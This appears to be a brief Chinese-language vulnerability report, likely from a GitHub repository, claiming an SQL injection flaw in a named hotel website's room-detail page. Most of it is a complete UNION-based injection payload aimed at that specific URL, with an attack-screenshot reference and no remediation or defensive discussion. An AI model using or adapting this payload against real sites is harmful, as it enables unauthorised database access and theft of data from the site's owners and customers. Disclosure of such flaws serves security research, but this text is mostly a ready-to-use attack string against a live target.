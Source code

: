 #EMBRYO酒店网站存在SQL注入漏洞 
漏洞出现:http://www.embryohotel.com/room-detail.php?id=1
漏洞发现时间:2025年9月22日
Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:![attack](img/IMG_1.png)
